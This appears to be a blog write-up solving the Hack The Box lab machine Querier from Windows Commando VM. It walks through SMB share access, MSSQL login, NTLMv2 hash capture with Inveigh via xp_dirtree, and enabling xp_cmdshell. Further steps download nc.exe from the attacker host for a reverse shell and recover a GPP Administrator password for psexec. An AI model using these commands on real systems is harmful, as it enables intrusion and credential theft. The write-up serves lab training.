 ```yaml
---
layout: post
title: Hack The Box - Querier (Commando)
categories: hack-the-box
tags: [Windows, RCE, smb]
image: /hackthebox/querier-2/0.png
---
```


<hr>
### Quick Summary
#### Hey guys this is the second post for Querier, you can read the first post [here](/hack-the-box/querier). In the first post I solved it with kali, In this post I will solve it with commando vm. Querier's ip is `10.10.10.125` I added it to `C:\Windows\System32\drivers\etc\hosts` as `querier.htb`. Let's jump right in !
![](/images/hackthebox/querier-2/0.png)
<hr>
### Nmap
#### As always we will start with `nmap` to scan for open ports and services :
`nmap -sV -sT -sC querier.htb`
![](/images/hackthebox/querier-2/1.png)
#### We got `smb` and `mssql` server on port 1433. We don't have credentials for `mssql` so let's check `smb`.
<br>
<hr>
### Smb
#### We need to list the shares, We can do that using `net view` :
`net view querier.htb`
![](/images/hackthebox/querier-2/2.png)
#### It only showed us `Reports` because it's the only share that we can access anonymously which is nice. 
#### We can mount the share from `cmd` with `net use` :
`net use Z: \\querier.htb\Reports /persistent:yes`
![](/images/hackthebox/querier-2/3.png)
<br>
<br>
![](/images/hackthebox/querier-2/4.png)
#### We can also do it from the file explorer :
![](/images/hackthebox/querier-2/5.png)
<br>
<br>
![](/images/hackthebox/querier-2/6.png)
<hr>
### MSSQL
#### I used `olevba` to get credentials from the excel file like I did in the [first post](/hack-the-box/querier/) :
![](/images/hackthebox/querier-2/7.png)
#### To connect to the `mssql` server I will use [HeidiSQL](https://www.heidisql.com/) :
![](/images/hackthebox/querier-2/8.png)
#### However, authentication failed :
![](/images/hackthebox/querier-2/9.png)
#### I tried windows authentication :
![](/images/hackthebox/querier-2/10.png)
#### But it also failed because it was trying as guest not reporting :
![](/images/hackthebox/querier-2/11.png)
#### To solve this we can use `runas` to run `heidi` as reporting :
`runas /netonly /user:QUERIER\reporting cmd.exe`
![](/images/hackthebox/querier-2/12.png)
#### From the new `cmd` session I ran `heidi` :
![](/images/hackthebox/querier-2/13.png)
#### Now windows authentication worked :
![](/images/hackthebox/querier-2/14.png)
#### Got permission denied for `xp_cmdshell` :
![](/images/hackthebox/querier-2/15.png)
#### We can run a fake `smb` server to capture credentials using a tool called `Inveigh` which works like responder. From `powershell` I imported `Inveigh` (`Import-Module C:\Tools\Inveigh\Inveigh.ps1`). Then I disabled the firewall (`netsh advfirewall set allprofiles state off`) and invoked `Inveigh` (`Invoke-Inveigh -IP 10.10.xx.xx -ConsoleOutput Y`). 
#### From `Heidi` I used `xp_dirtree` :
`EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/querier-2/16.png)
#### `Inveigh` captured the `NTLMv2` hash for `mssql-svc` :
![](/images/hackthebox/querier-2/17.png)
#### After cracking the hash on another box the password is `corporate568`. Now we can use `runas` to run `Heidi` as `mssql-svc` :
`runas /netonly /user:QUERIER\mssql-svc "C:\Program Files\HeidiSQL\heidisql.exe"`
![](/images/hackthebox/querier-2/18.png)
#### Queries to enable `xp_cmdshell` :
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
![](/images/hackthebox/querier-2/19.png)
<br>
<br>
![](/images/hackthebox/querier-2/20.png)
#### Great, we got `RCE`. I ran a python server to host `nc.exe` then I downloaded it on the box and got a reverse shell :
```
EXEC xp_cmdshell 'powershell Invoke-WebRequest -o C:\Users\mssql-svc\Desktop\nc.exe http://10.10.xx.xx/nc.exe';
EXEC xp_cmdshell 'C:\Users\mssql-svc\Desktop\nc.exe -e cmd.exe 10.10.xx.xx 1337'
```
![](/images/hackthebox/querier-2/21.png)
<br>
<br>
![](/images/hackthebox/querier-2/22.png)
#### We owned user.
<br>
<hr>
### GPP, Privilege Escalation, Root Flag
#### As I said in the [first post](/hack-the-box/querier/), when I checked group policy passwords I found Administrator's password. There are privilege escalation enumeration scripts for Windows like `LinEnum.sh` for Linux one of them is [`powerup.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and it checks for group policy passwords. Let's check that one :
![](/images/hackthebox/querier-2/23.png)
<br>
<br>
![](/images/hackthebox/querier-2/24.png)
<br>
<br>
![](/images/hackthebox/querier-2/25.png)
#### It also decrypts the password which is nice. Password : `MyUnclesAreMarioAndLuigi!!1!`
#### Now we can use `psexec` to get a shell as Administrator. I used `runas` to start `cmd` as `QUERIER\Administrator` then I used `psexec` :
`runas /netonly /user:QUERIER\Administrator cmd.exe`
<br>
<br>
`psexec \\querier.htb cmd`
![](/images/hackthebox/querier-2/26.png)
#### And we owned root !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### First write-up : [Hack The Box - Querier](/hack-the-box/querier)
#### Previous Hack The Box write-up : [Hack The Box - Flujab](/hack-the-box/flujab/)
<hr>
